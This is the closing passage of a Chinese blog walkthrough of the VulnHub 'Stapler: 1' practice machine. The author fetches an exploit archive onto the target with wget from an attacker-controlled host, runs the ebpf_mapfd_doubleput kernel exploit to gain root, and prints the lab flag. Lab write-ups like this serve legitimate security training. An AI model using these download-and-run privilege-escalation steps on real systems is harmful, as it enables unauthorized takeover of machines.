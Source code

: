 回到靶机 shell 环境，将 exploit.tar 文件下载至本地，并使用 tar 工具解压：

```bash
wget http://192.168.153.148:8000/exploit.tar
```

![wget_exploit_tar](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/wget_exploit_tar.png)

最后在 ebpf_mapfd_doubleput_exploit/ 目录下，执行 `./compile.sh` 与 `./doubleput` 命令，即可获得 root 用户权限：

![get_root_by_exp](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/get_root_by_exp.png)

# 0x06 小结

获取 root 用户权限后，在其主目录下发现 flag.txt 文件，最终得到 flag 为 **b6b545dc11b7a270f4bad23432190c75162c4a2b**，至此宣告靶机渗透过程结束：

![cat_flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/cat_flag.png)

磕磕绊绊地，总算完成了 [Stapler: 1](https://www.vulnhub.com/entry/stapler-1,150/) 靶机渗透练习，不仅从中丰富了自己的工具库，而且还学习到了各类漏洞的利用方法，拓展了渗透测试思路，可谓是收获良多，感谢 [g0tmi1k](https://twitter.com/g0tmi1k) 等大佬提供的靶机练习。

由于笔者水平有限，本文渗透思路多借鉴于以下 writeup，但也不乏创新思路点。对于**持续控制**与**权限提升**技巧，勉强达到靶机要求的合格水平，各位若有其他新颖独特的思路，还望不吝赐教，多多交流。

本文涉及的文章参考，请移步至：

> [VulnHub — Stapler: 1](https://bond-o.medium.com/vulnhub-stapler-1-ab928900d614)
> [Stapler: 1 Walkthrough](https://medium.com/@Kan1shka9/stapler-1-walkthrough-e1f2a667ea4)
> [VulnHub ‘Stapler: 1’ - CTF](https://jhalon.github.io/vulnhub-stapler1/)
> [Vulnhub-靶机-STAPLER: 1](https://www.cnblogs.com/autopwn/p/13864611.html)
> [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
> [VMware虚拟机三种网络模式：桥接模式，NAT模式，仅主机模式](https://blog.csdn.net/qq_39192827/article/details/85872025)
